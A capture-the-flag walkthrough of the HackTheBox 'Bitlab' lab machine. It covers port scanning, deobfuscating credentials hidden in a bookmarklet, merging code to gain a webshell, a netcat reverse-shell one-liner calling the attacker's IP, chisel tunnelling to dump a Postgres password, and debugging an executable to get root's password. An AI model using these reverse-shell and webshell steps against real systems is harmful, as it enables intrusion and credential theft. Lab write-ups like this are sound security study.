







# Bitlab
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.114 --min-rate 5000                 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-25 18:31 BST
Nmap scan report for 10.10.10.114 (10.10.10.114)
Host is up (0.27s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 127.78 seconds
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.114 --min-rate 5000 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-25 18:33 BST
Nmap scan report for 10.10.10.114 (10.10.10.114)
Host is up (0.34s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.12 seconds
```

- Web server




## Foothold
- If we click `help` we get the following page


- If we click `Gitlab Login` we receive
```
javascript:(function(){ var _0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()
```

- I used https://obf-io.deobfuscate.io/ to deobfuscate
  - `clave:11des0081x`


- Using those creds, we can login


- We find `snippets` with creds
  - Save them for later



- We see 2 repos
  - `Profile`





- And `Deployer`




- `deployer` git pulls the updates for the `profile`
  - Let's add something to `master` branch and deploy it


- We have to merge our branch to `master`


- Now we see merging window
  - Check `Remove source branch` to clean up after merge


- Click `Merge`


- And now visit `profile` page
  - http://10.10.10.114/profile/?cmd=id
  - We have a webshell



- Rev shell payload from https://www.revshells.com/
  - url-encoded: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.3 6666 >/tmp/f`



## User
- If we run `ip a`, we `docker` network interface
  - `ps auxww` shows multiple docker containers running

```
...
root      1677  0.0  0.0 405508  1996 ?        Sl   17:01   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-port 80 -container-ip 172.19.0.2 -container-port 80
root      1703  0.0  0.1 479240  2068 ?        Sl   17:01   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 5432 -container-ip 172.19.0.3 -container-port 5432
root      1725  0.0  0.1 479240  2104 ?        Sl   17:01   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 3000 -container-ip 172.19.0.5 -container-port 80
...
```

- `nmap` is installed
  - We can scan the subnet
```
www-data@bitlab:/var/www/html/profile$ nmap 172.19.0.0/24

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-26 17:41 UTC
Nmap scan report for bitlab (172.19.0.1)
Host is up (0.00036s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap scan report for 172.19.0.2
Host is up (0.00039s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 172.19.0.3
Host is up (0.00038s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
5432/tcp open  postgresql

Nmap scan report for 172.19.0.4
Host is up (0.00040s latency).
All 1000 scanned ports on 172.19.0.4 are closed

Nmap scan report for 172.19.0.5
Host is up (0.00039s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8181/tcp open  intermapper

Nmap done: 256 IP addresses (5 hosts up) scanned in 3.15 seconds

```

- We have a `postgres` 
  - But box doesn't have `psql` installed
  - We have to configure `port forwarding`
  - We can use `chisel` or `ligolo-ng`
    - For `ligolo-ng` check:
      - https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740
      - https://blog.wathix.xyz/zephyr-pro-lab-guide/pivoting#triple-pivot-with-sshuttle-and-ligolo-ng
  - I'll upload `chisel`
  - Start `chisel` server on attack box
```
└─$ ./chisel server -p 9001 --reverse                                                              
2023/10/26 18:50:17 server: Reverse tunnelling enabled
2023/10/26 18:50:17 server: Fingerprint Gu6w6goHmB652+x3Ji7X2k1dFSXWyWuhIWmRRJYVpO8=
2023/10/26 18:50:17 server: Listening on http://0.0.0.0:9001
```

- Then connect from box
```
www-data@bitlab:/tmp$ ./chisel client 10.10.16.3:9001 R:5432:localhost:5432
```
- We will see the log that session was created
```
2023/10/26 18:52:01 server: session#1: tun: proxy#R:5432=>localhost:5432: Listening
```

- Connect via `psql`
```
└─$ psql -h 127.0.0.1 -U profiles -p 5432           
Password for user profiles: 
psql (16.0 (Debian 16.0-2), server 10.4 (Ubuntu 10.4-2.pgdg18.04+1))
Type "help" for help.

profiles=> 
```

- Let's enumerate
```
profiles=> \l
                                                  List of databases
   Name    |  Owner   | Encoding | Locale Provider | Collate | Ctype | ICU Locale | ICU Rules |   Access privileges   
-----------+----------+----------+-----------------+---------+-------+------------+-----------+-----------------------
 gitlab    | postgres | UTF8     | libc            | C       | C     |            |           | =Tc/postgres         +
           |          |          |                 |         |       |            |           | postgres=CTc/postgres+
           |          |          |                 |         |       |            |           | gitlab=CTc/postgres
 postgres  | postgres | UTF8     | libc            | C       | C     |            |           | 
 profiles  | postgres | UTF8     | libc            | C       | C     |            |           | =Tc/postgres         +
           |          |          |                 |         |       |            |           | postgres=CTc/postgres+
           |          |          |                 |         |       |            |           | profiles=CTc/postgres
 template0 | postgres | UTF8     | libc            | C       | C     |            |           | =c/postgres          +
           |          |          |                 |         |       |            |           | postgres=CTc/postgres
 template1 | postgres | UTF8     | libc            | C       | C     |            |           | =c/postgres          +
           |          |          |                 |         |       |            |           | postgres=CTc/postgres
(5 rows)

```

- Dump the database
```
profiles=> \d
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | profiles | table | profiles
(1 row)

profiles=> select * from profiles;
 id | username |        password        
----+----------+------------------------
  1 | clave    | c3NoLXN0cjBuZy1wQHNz==
(1 row)
```

- We can `ssh`
```
└─$ sshpass -p 'c3NoLXN0cjBuZy1wQHNz==' ssh clave@10.10.10.114                 
Warning: Permanently added '10.10.10.114' (ED25519) to the list of known hosts.
Last login: Thu Aug  8 14:40:09 2019
clave@bitlab:~$ 
```
## Root
- Interesting file `RemoteConnection.exe`
```
clave@bitlab:~$ ls -lha
total 44K
drwxr-xr-x 4 clave clave 4.0K Aug  8  2019 .
drwxr-xr-x 3 root  root  4.0K Feb 28  2019 ..
lrwxrwxrwx 1 root  root     9 Feb 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 clave clave 3.7K Feb 28  2019 .bashrc
drwx------ 2 clave clave 4.0K Aug  8  2019 .cache
drwx------ 3 clave clave 4.0K Aug  8  2019 .gnupg
-rw-r--r-- 1 clave clave  807 Feb 28  2019 .profile
-r-------- 1 clave clave  14K Jul 30  2019 RemoteConnection.exe
-r-------- 1 clave clave   33 Oct 26 17:02 user.txt

```

- Supply it to `strings`
```
...
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/
XRIBG0UCDh0HJRcIBh8EEk8aBwdQTAIERVIwFEQ4SDghJUsHJTw1TytWFkwPVgQ2RztS
parse
Access Denied !!
string too long
invalid string position
GetUserNameW
ADVAPI32.dll
ShellExecuteW
SHELL32.dll
?cout@std@@3V?$basic_ostream@DU?$char_traits@D@std@@@1@A
?_Xout_of_range@std@@YAXPBD@Z
?_Xlength_error@std@@YAXPBD@Z
?uncaught_exception@std@@YA_NXZ
?sputn@?$basic_streambuf@DU?$char_traits@D@std@@@std@@QAE_JPBD_J@Z
?_Osfx@?$basic_ostream@DU?$char_traits@D@std@@@std@@QAEXXZ
?sputc@?$basic_streambuf@DU?$char_traits@D@std@@@std@@QAEHD@Z
?flush@?$basic_ostream@DU?$char_traits@D@std@@@std@@QAEAAV12@XZ
?setstate@?$basic_ios@DU?$char_traits@D@std@@@std@@QAEXH_N@Z
MSVCP100.dll
?what@exception@std@@UBEPBDXZ
...
```

- Let's reverse it
  - Looks like it deploys `Putty` as `clave`


- Use `x32dbg` to debug
  - Set breakpoint in the main function
    - I set it right before the check for username `clave` 
  - And we have a password for `root`
    - `root:Qf7]8YSV.wDNF*[7d?j&eD4^`




- `ssh` as `root`

```
└─$ sshpass -p 'Qf7]8YSV.wDNF*[7d?j&eD4^' ssh root@10.10.10.114       
Last login: Wed Sep  7 13:12:33 2022
root@bitlab:~# 
```